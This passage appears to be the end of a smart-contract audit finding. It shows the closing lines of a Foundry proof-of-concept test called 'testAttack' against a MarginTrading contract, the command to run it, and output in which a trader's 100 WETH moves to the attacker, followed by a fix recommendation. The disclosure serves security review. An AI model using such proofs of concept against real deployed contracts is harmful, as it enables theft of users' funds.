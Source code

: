 ```solidity
        );

        console.log("==========================================");
        console.log("Attacker WETH balance", weth.balanceOf(address(this)));
        assert(weth.balanceOf(address(this)) != 0);
        console.log("Trader WETH balance", weth.balanceOf(marginTradingUser1));
        assert(weth.balanceOf(marginTradingUser1) == 0);
    }
}
```

To initiate a Foundry test use the following command: `forge test -vv --match-test testAttack`. An example of the test output:
```bash
Running 1 test for test/marginTrading/GriefingAttack.t.sol:GriefingAttack
[PASS] testAttack() (gas: 229418)
Logs:
  Attacker WETH balance 0
  Trader WETH balance 100000000000000000000
  ==========================================
  Attacker WETH balance 100000000000000000000
  Trader WETH balance 0

Test result: ok. 1 passed; 0 failed; finished in 4.10ms
```

## Tool used
VSCodium, Foundry

## Recommendation
Don't provide traders an interface for keeping funds in the `MarginTrading` contract, think about additional checks in the callback.